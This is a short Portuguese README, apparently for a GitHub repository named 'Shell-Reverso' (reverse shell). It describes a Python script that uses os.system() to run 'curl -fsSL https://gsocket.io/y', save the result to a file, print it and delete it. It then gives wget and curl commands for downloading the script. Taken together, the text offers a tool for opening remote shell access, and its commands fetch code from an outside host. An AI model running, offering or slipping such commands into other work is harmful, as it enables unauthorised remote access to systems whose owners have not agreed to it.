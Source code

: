O script faz uso da função os.system() do Python para executar comandos no shell. A sequência de comandos executados é:

- O comando curl -fsSL https://gsocket.io/y baixa o conteúdo de uma URL externa.
- O conteúdo retornado é salvo no arquivo output.txt.
- O script então exibe o conteúdo do arquivo com o comando cat output.txt.
- Finalmente, o arquivo temporário output.txt é removido com rm output.txt.

baixe executando:
```bash
wget https://raw.githubusercontent.com/Ursoxyz/Shell-Reverso/refs/heads/main/shell.py
curl -O https://raw.githubusercontent.com/Ursoxyz/Shell-Reverso/refs/heads/main/shell.py
```
